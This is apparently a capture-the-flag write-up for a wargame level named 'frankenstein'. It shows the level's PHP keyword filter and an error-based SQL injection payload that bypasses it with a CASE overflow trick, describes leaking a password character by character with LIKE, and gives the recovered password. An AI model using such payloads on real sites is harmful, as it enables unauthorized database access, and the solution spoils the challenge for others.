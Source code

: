 ```yaml
---
layout: default
title: frankenstein
---
```


Here this is very similar to [blue_dragon](./blue_dragon.md), however, here this is `Error based SQL Injection`.

In addition, we can see we have filters:
```php
if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
```

So, this will be the payload we give:
```sql
' or id='admin' and case when CONDITION then 7700000000000000*7700000000000000 else 1 end -- 
```

Now, when the condition is true will get error.

We can leak the password by giving something like: `pw like 'a%'`, and by this way like char by char

```python
{% include_relative scripts/frankenstein.py %}
```

![FINAL](./images/frankenstein_FINAL.png)

**Password:** ***`0dc4efbb`*** 
